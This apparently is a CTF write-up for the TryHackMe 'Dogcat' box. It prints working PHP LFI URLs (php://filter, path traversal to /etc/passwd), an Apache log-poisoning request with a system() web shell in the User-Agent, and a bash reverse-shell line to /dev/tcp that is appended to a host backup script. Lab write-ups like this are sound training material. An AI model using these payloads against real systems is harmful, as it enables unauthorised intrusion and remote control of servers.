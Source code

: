 # Dogcat

Dogcat is a [medium-rated box on TryHackme](https://tryhackme.com/room/dogcat) which involves an LFI and poisoning the User-Agent to get RCE.

## Recon

As always, let's start out with a simple Nmap scan:
```
wiz@skua:~/ctf/thm/dogcat$ nmap -sC -sV -Pn --top-ports 1000 -o inital.nmap 10.10.94.19
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 13:30 CEST
Nmap scan report for 10.10.94.19
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

From this basic scan we can see that port 80 is open. While running a full portscan in the background, we can have a look at the website.

![dogcat landing page](./screenshots/dogcat-1.png)

The first thing I usually do is check if the site is running HTML, PHP, or something else. We can find this out by requesting the URL with either *index.html* or *index.php*. In this case, we can verify that it is a PHP page.

We have two options to choose from, "A dog" and "A Cat". Clicking on these gives us a random picture of a dog or a cat, depending on which you clicked. This in itself isn't necessarily interesting to us, but here we can see in the URL that the chosen option gets added sent as a GET parameter.

```HTTP
http://<ip>/?view=dog
```

In the context of a view, our first suspicion should be if the request is including another files response inside index.php. We can also assume that it appends a .php extension, as the original http request does not contain it.
```PHP
include $_GET['view'] . "php";
```
We can test this suspicion by requesting the File added in the view directly from the URL.
```HTTP
http://<ip>/dog.php
```
As suspected, it returns a picture on an otherwise blank page. From here we can try some LFI.

# LFI

Because at the moment we have to assume that the code appends .php to every request we make in the view, we can "only" get the source of the current pages. These files are *index.php*, *dog.php* and *cat.php*. Because these would all be interpreted when we include them, we have to convert them into some other format. We'll use the php filter functionality to convert the code into Base64. The site also prevents us from putting something in the view without the keywords "dog" or "cat", which is why we have to change our path accordingly:
```HTTP
http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index
```
This returns a base64 encoded string of the sourcecode of *index.php*. 

![dogcat base64 extraction](./screenshots/dogcat-2.png)

Decoding it results in this code:

```PHP
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Here we can see that our suspicions were partially correct, in that the other view gets included into the page. But the crucial part is that the user can set the extension in a GET request, which we previously did not know. This means we can now open other files than php by setting that parameter to nothing.

```HTTP
http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../../../../../../etc/passwd&ext=
```

This returns us another base64 decoded string, this time from /etc/passwd as verification that we can view other files:

![decoding /etc/passwd base64](./screenshots/dogcat-3.png)


# RCE

With this knowledge, we can possibly leverage our LFI into an RCE by adding PHP code in places where there shouldn't normally be any, as the include statement interprets it as PHP without needing the extension. We can try this here by adding some PHP code in the User-Agent of our request and including the webserver log. We can view the Webserver log via the same LFI.

![Viewing the Webserver log via LFI](./screenshots/dogcat-4.png)

Now it's just a question of adding a payload in the User-Agent. We'll just add a simple GET to system parameter for now, although you could also upload a complete shell at this point.

```HTTP
GET /?view=./dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.38.198
User-Agent: <?php system($_GET['wiz']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

From here we can simply make another request to the same URL with a command for the parameter we previously set...

![Executing commands via LFI](./screenshots/dogcat-5.png)

...and get RCE! I used the php oneliner from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), just remember to URLEncode before you send it off.

![RCE](./screenshots/dogcat-6.png)

From here you will find a flag.php, where the first flag is placed. The second flag will be one folder up, in /var/www .

# Privesc

Once we have the shell, we of course want to privesc. To start our enumeration, we do a simple sudo -l:

![privesc enumeration](./screenshots/dogcat-7.png)

We can see that we can execute */usr/bin/env* as sudo. A quick peek at [GTFObins](https://gtfobins.github.io/) will show us a way to privesc.

![privesc](./screenshots/dogcat-8.png)

# Container Escape

Although we rooted the box, there still seems to be a fourth flag. By running linpeas we can find some unusual scripts in */opt/backups*.

![backups folder](./screenshots/dogcat-9.png)

Here we can see that we are actually inside a container. The container escape doesn't seem to be hard though, as this looks like a shared folder between the Host and the Container, where the Host runs this script to get a backup. We can simply append a bash reverse shell at the end of the file and escalate to the host machine.

`echo "bash -i >& /dev/tcp/10.9.19.202/6510 0>&1" >> backup.sh`

The fourth flag is in */root* of the Host.

![last flag](./screenshots/dogcat-10.png)
